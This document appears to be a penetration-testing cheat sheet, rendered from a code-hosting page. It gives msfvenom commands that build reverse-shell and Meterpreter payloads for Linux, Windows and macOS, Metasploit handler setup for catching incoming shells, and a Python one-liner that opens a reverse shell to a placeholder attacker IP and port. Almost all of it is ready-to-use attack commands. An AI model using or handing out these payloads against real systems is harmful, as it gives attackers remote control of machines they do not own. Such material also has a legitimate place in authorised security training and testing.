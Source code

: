 <b>Linux Based Shellcode:</b>

	msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f <[LANGUAGE]>

<b>Windows Based Shellcode:</b>

	msfvenom -p windows/meterpreter/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f <[LANGUAGE]>

<b>Mac Based Shellcode:</b>

	msfvenom -p osx/x86/shell_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -f <[LANGUAGE]>

# Staged vs Non-Staged Payloads

<b>Staged payload:</b> (useful for bof) (need multi_handler metasploit in order to works)

	Windows/shell/reverse_tcp

	msfvenom -a x86 -p linux/x86/shell/reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -b "\x00" -f elf -o <[FILE_NAME_STAGED]>

<b>Non-staged:</b> (ok with netcat listener)

	Windows/shell_reverse_tcp

	msfvenom -a x86 -p linux/x86/shell_reverse_tcp LHOST=<[IP]> LPORT=<[PORT]> -b "\x00" -f elf -o <[FILE_NAME_NON_STAGED]>

# Handlers

Metasploit handlers can be great at quickly setting up Metasploit to be in a position to receive your incoming shells. Handlers should be in the following format.

	use exploit/multi/handler

	set PAYLOAD <[PAYLOAD_NAME]>

	set LHOST <[IP]>

	set LPORT <[PORT]>

	set ExitOnSession false

	exploit -j -z

# Shell Spawning

<b>Python:</b>

	python -c 'import pty; pty.spawn("/bin/sh")'

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<[IP]>",<[PORT]>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'

<b>Bash:</b>

	echo os.system('/bin/bash')

